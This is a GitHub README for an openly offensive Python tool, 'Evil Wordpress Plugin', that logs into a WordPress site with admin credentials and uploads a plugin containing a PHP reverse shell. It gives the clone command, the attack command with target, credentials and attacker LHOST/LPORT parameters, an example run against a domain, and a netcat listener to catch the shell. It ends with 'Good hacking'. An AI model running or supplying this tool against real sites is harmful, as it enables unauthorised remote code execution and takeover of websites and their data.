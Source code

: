 ![LOGO](https://github.com/JoaoPedroMoreira02/Pwn_Wordpress/assets/103542430/7c6e38fe-7fda-4f97-9da1-b1a619f975d2)


# Evil Wordpress Plugin (Malicious)

Malicious, remotely performs an upload of a PHP reverse shell in the form of a plugin on a WordPress site. The exploit is only successful with user credentials, so make sure you know the target username and password and check if the target user has Administrator permissions.

Install by running:

```bash
  git clone https://github.com/J0hnTh3Kn1ght/Pwn_Wordpress.git
```
    
## Parameters [Running Script]

Help section (-h)

```bash
usage: Malicious.py [-h] [-t] [-u] [-p] [-L] [-P]

Wordpress Malicious plugin upload

options:
  -h, --help        show this help message and exit
  -t , --target     Target URL
  -u , --username   Wordpress Username
  -p , --password   Wordpress Password
  -L , --LHOST      Attacker IP address
  -P , --LPORT      Attacker LOCAL PORT

./app.py -t http://domain_name.com/wordpress -u User_FOX -p Pass -L 192.168.20.2 -P 4040 

```

Attacking the Target Website: 

```bash 
python3 Malicious.py -t http://<IP or domain_name> -u <Target Username> -p <Target Password> -L <LOCAL IP> -P <LOCAL PORT>

```

Executing Handler

```bash 
nc -lvp {LOCAL PORT}
```

The script will automatically give you the connection. 

***---> In case of complications or disconnection issues, you can just manually trigger the connection at the URL link given by the program <---***
 
***---> Correct Syntax: "http://IP/wordpress | Wrong syntax: http://IP/wordpress/ <---***

## 

- ***Good hacking :)***




